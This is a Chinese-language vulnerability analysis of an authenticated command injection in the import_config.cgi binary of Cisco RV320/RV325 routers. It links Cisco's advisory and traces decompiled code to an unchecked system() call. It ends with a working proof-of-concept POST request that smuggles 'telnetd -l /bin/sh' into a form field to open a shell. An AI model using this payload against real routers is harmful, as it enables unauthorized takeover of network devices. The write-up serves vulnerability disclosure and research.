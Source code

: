 **Cisco RV320**和**RV325**系列企业级路由器最新固件中存在一个命令注入漏洞。通过身份验证的攻击者可通过该漏洞执行任意命令，获取设备的最高控制权。  
  
  
思科安全通告：  
  
**https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-sb-rv32x-cmdinject-cKQsZpxL.html**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBPh3OGCzv5yVjqQqUuT4r6CAcOr8b0D6MaA1xUV07897JicMQnm0bG5Q/640?wx_fmt=other&from=appmsg "")  
  
  
  
**漏洞细节**  
  
  
该漏洞存在于****/usr/local/EasyAccess/www/cgi-bin/import_config.cgi****二进制文件中。  
  
  
在**main**函数中，**POST**报文中的前两个表单数据字段通过两组**fgets**函数读取（每组读取四行，作为表单数据字段）。当**form-data**的第一个字段为**1**时，第二个字段中**;**之后的内容被拼接入 **acStack1144**变量中，并作为参数传递给**upgradefromusb**函数。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMByP5wCd6I6B2pUZU4LTPHyQSq7VZQibjWzoeCYx6Z4ibE8Yy5iadaAlIFA/640?wx_fmt=other&from=appmsg "")  
  
  
在**upgradefromusb**函数中，首先通过**FUN_120003860**函数在传递的参数中**(**和**)**之前添加**\**转义（不过对该漏洞利用并没有影响）。然后，将处理后的内容直接拼接入**acStack808**变量中，并作为**system**的参数执行，而未进行任何检查。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMB6tgNtb2uhAJBAf1YwJCvxJ6NqQaVwE2xJvPV4D7VTLr8h5NHuPdSMg/640?wx_fmt=other&from=appmsg "")  
  
  
综上，攻击者  
可以在**POST**请求报文中表单数据的第二个字段的**;**后面注入任意命令并执行。  
  
  
**Poc**  
  
  
发送如下**POST**请求报文即可（注意用**${IFS}**代替空格）：  
```
POST /cgi-bin/import_config.cgi HTTP/1.1
Host: 192.168.1.1
Cookie: mlap=ZfRSjTJvVhNsYLzAUrxDcg==
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------16897455311731203775484527323
Content-Length: 330
Origin: https://192.168.1.1
Referer: https://192.168.1.1/sys_setting.htm
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------16897455311731203775484527323
Content-Disposition: form-data; name="submitrestoreconfig"

1
-----------------------------16897455311731203775484527323
Content-Disposition: form-data; name="USBconfigfile"

USB1;;telnetd${IFS}-l${IFS}/bin/sh;
-----------------------------16897455311731203775484527323--
```  
  